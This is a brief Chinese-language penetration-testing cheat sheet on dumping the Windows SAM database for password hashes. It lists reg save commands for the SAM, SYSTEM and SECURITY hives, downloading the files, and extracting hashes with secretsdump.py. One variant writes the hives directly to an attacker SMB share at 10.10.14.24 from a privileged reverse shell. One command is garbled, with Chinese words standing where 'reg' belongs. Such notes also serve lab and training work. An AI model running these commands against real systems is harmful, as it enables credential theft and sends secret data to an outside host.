 ```yaml
---
description: 有两种取法，一般只取两个
---
```


# 转储sam

1. 取两个

```clike
比较麻烦 save HKLM\sam sam
reg save HKLM\system sys

download sys
download sam
secretsdump.py -sam sam -system sys LOCAL
```

1. 或者取三个

用于我们只有反弹高权限shell，但是没有凭据 下面的例子我已经建立了一个简单的smbshare

```clike
reg save HKLM\sam \\10.10.14.24\share\sam
reg save HKLM\system \\10.10.14.24\share\system
reg save HKLM\security \\10.10.14.24\share\security
secretsdump.py -sam sam -security security -system system LOCAL
```
